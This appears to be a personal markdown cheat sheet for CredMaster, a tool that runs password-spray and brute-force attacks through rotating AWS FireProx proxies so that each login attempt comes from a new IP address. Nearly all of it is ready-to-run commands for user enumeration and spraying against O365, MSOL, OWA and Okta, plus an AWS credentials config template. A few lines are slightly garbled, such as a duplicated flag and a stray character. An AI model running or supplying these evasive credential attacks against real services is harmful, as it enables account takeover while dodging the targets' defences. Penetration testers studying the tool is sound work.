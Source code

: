 
# CredMaster
Init
> "Launch a password spray / brute force attach via Amazon AWS passthrough proxies, shifting the requesting IP address for every authentication attempt. This dynamically creates FireProx APIs for more evasive password sprays."
> -GitHub
## Use
Needs an AWS key to spin up EC2 instances for the job. Put into `aws.config`.
```json
{
        "region" : "us-east-1",
        "access_key" : "",
        "secret_access_key" : "",
        "session_token" : null,
        "profile_name" : null                                           
}
```
### Flags
- `-u` username file
- `-t` threads
- `--plugin` plugin to use
- `--config` config file to use
- `-p` passwords file
- `-o` output file
- `-ua` user agents list to cycle thru
- `-t` throttling
- `-m` min jitter *has to be a higher number than `-j`*
- `-j` jitter
### Plugin Examples
#### O365 User Enum
```bash
python3 credmaster.py \
--plugin o365enum \
--config aws.config \
-u usernames.txt \
-t 8 
```
CredMaster will also create a `credmaster-validusers.txt` file with all of the valid usernames it finds with this command.
#### Spraying Plugin
```bash
python3 credmaster.py --plugin msol --config aws.config -u credmaster-validusers.txt -p passwords.txt -o 
```
#### MSOL
```bash
python3 credmaster.py -u "all_emails_v1.txt" \ 
-p pass.txt \ 
--plugin msol \ 
--config aws.config \ 
--color \ 
-o "credmaster-MSOL-out-3.txt" \ 
-t 5 -j 15 -m 10 \ 
-a ua.txt # list of user agent strings to use
```
#### o365enum
```bash
python3 credmaster.py -u "users.txt" \
-p pass.txt \
--plugin o365enum \
--config aws.config \
--color \
-o "./o365-enum-out" \
-t 5 -j 15 -m 10 \ # jitter has to be higher than throttle
-a ua.txt
```
#### OWA Plugin Spray
**NOTE** use a url you've found on the target's actual domain.
```bash
python3 credmaster.py -u "/root/target/users.txt" \
-p pass.txt \
--plugin owa \
--url "https://target.mail.onmicrosoft.com" \.
--config aws.config \
-o "/root/target/OWA-credmaster-out"
```
#### Okta
```bash 
python3 credmaster.py \
--plugin okta \
--config aws.config \
-u users.txt \
-p passwords.txt \
-o okta-out \
--url https://target.okta.com
```

> [!Resources]
> - [GitHub](https://github.com/knavesec/CredMaster)